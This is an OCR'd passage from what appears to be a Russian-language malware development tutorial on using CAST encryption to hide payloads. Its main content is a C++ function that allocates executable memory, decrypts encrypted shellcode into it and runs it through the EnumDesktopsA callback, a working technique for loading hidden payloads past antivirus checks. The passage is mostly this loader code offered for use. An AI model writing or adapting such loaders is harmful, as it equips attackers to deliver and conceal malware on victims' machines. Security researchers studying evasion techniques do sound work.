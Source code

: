 ![cryptography](./images/131/2024-07-28_17-07.png){width="80%"}      

Наша полезная нагрузка находится в `.text` секции.    

### практический пример 2

Обновляем нашу простую логику, просто заменяя весь процесс дешифрования и запуска полезной нагрузки на дешифрование и выполнение shellcode следующим образом:     

```cpp
void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // allocate a single block for execution
  mem_block = VirtualAlloc(NULL, shellcode_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  // execute the shellcode using EnumDesktopsA
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}
```
